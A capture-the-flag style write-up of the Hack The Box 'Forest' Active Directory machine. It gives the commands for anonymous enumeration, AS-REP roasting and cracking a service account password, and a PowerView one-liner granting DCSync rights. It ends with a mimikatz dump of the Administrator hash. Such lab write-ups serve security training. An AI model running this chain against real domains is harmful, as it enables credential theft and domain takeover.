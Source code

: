 ```yaml
---
title: HTB-Forest
draft: false
tags:
  - htb
  - windows
  - easy
  - active-directory
  - genericall
  - as-rep-roasting
  - bloodhound
  - sharphound
  - writedacl
  - mimikatz
---
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/Forest.png)

## Information Gathering
### Rustscan

Rustscan finds many ports open:

`rustscan --addresses 10.10.10.161 --range 1-65535`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image.png)

Based on the ports open, this machine seems to be an active directory machine.

## Enumeration
### RPC - TCP 135

Let's start with enumerating RPC:

`rpccclient -U "" -N 10.10.10.161`

Luckily, we are able to execute commands as the null user.

Executing `enumdomusers`, we get list of users on the system:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-1.png)

We will make a list of users on the system for later attacks:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-2.png)


### LDAP - TCP 389

Next, let's enumerate LDAP. 

We will first query for base namingcontexts:

`ldapsearch -H ldap://10.10.10.161 -x -s base namingcontexts`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-3.png)

**DC=htb,DC=local** seems to be the base.

Luckily, we can bind to LDAP with no credentials. 

Let's forward result for bind on `DC=htb,DC=local` to another file (ldap-null-bing.txt):

`ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" > ldap-null-bing.txt`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-4.png)

Since the result contains thousand of lines, we used the command below to organize it:

`cat ldap-null-bing.txt | awk '{print $1}' | sort | uniq -c | sort -nr > xb-bind-sorted.txt`

Unfortunately, nothing interesting was found from the bind.
## AS-REP Roasting

Since we have the list of valid users on the system, let's try **AS-REP Roasting**:

`GetNPUsers.py 'htb.local/' -user users.txt -format hashcat -outputfile hashes -dc-ip 10.10.10.161`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-5.png)

We found user **svc-alfresco** being vulnerable AS-REP Roasting:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-6.png)

We will pass the hash to hashcat and crack it with rockyou.txt:

`haschat hash rockyou.txt`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/forest-hash.png)

Hash is cracked in no time and the password is revealed to be **s3rvice**. 

Let's see if the user **svc-alfresco** is in **Remote Management Group** with crackmapexec:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-8.png)

We can now winrm login as the user **svc-alfresco**:

`evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-7.png)


## Privesc: svc-alfresco to Administrator
### Bloodhound

Since this is an Active Directory machine, let's enumerate it with SharpHound and Bloodhound.

We will first upload SharpHound.exe:

`upload SharpHound.exe`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-9.png)

Let's run it and collect Active Directory information:

`./SharpHound.exe`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-10.png)

After zip file is created, we will download it:

`download 20240608002914_BloodHound.zip`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-11.png)

Now that we have collected Active Directory information, let's start up bloodhound with the command below:

```bash
sudo neo4j console
sudo bloodhound
```

After importing the zip file to bloodhound, we can query various analysis.

Checking on shortest path to Domain Admins, we see a valid path form user **svc-alfresco**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-12.png)

**Svc-alfresco** is a member of **Privileged IT Accounts** and **Privilege IT Account** is a member of **Account Operators**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-13.png)

**Account Operators** have **Generic All** write to **Exchange Windows Permissions** group and **Exchange Windows Permissions** group has **WriteDacl** write to **HTB.LOCAL**, which contains Domain Admins.

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-14.png)

### GenericALL

We will first perform **GenericAll** attack from **Svc-alfresco** to **Exchange Windows Permissions** group:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-15.png)

Let's add user **svc-alfresco** to **Exchange Windows Permissions** group:

`net group "Exchange Windows Permissions" svc-alfresco /add /domain`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-16.png)

We can confirm the command executed successfully:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-17.png)

### WriteDacl

Now that we are in the **Exchange Windows Permissions** group, let's move on to **WriteDacl** attack:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-18.png)

We will first upload **PowerView.ps1**:

`upload PowerView.ps1`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-19.png)

After uploading, let's run it:

`. ./PowerView.ps1`

We tried running the commands that will grant user svc-alfresco DCSync right but it seemed that svc-alfresco gets automatically removed from **Exchange Windows Permissions** group every few minutes. 

Let's craft a one-liner command that will add user **svc-alfresco** to **Exchange Windows Permissions** group and grant it permission to DCSync:

```powershell
net group "Exchange Windows Permissions" svc-alfresco /add /domain; $Cred = New-Object System.Management.Automation.PSCredential('htb.local\svc-alfresco', (ConvertTo-SecureString 's3rvice' -AsPlainText -Force)); Add-ObjectACL -PrincipalIdentity svc-alfresco -Credential $Cred -Rights DCSync
```

After running the command above, we have successfully execute **WriteDacl** attack and we can use mimikatz to obtain hash for Administrator:

`./mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:htb.local /user:Administrator" "exit"`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-20.png)

Now we have a shell as the administrator:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forest/image-21.png)